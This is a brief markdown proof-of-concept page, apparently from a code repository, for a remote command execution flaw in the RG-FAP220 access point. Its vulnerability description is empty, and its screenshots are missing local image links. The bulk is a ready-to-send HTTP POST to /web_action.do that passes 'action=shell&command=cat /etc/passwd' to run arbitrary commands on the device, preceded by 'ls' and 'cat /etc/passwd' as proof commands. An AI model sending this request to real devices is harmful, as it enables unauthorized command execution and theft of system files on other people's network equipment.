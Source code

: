 # RG-FAP220 RCE

## Overview

![image-20231222163155940](D:\typora 图片\image-20231222163155940.png)

## Vulnerability details



## POC

ls

![image-20231222164924298](D:\typora 图片\image-20231222164924298.png)

cat /etc/passwd

![image-20231222163247926](D:\typora 图片\image-20231222163247926.png)

## EXP

```
POST /web_action.do HTTP/1.1
Host: 192.168.110.1
Content-Length: 38
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.110.1
Referer: http://192.168.110.1/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: LOCAL_LANG_COOKIE=zh; UI_LOCAL_COOKIE=zh; mac=0074.9ce6.95c0; SID=D65FDBE5CA6D86B59F94D3BF3872D87
Connection: close

action=shell&command=cat /etc/passwd
```

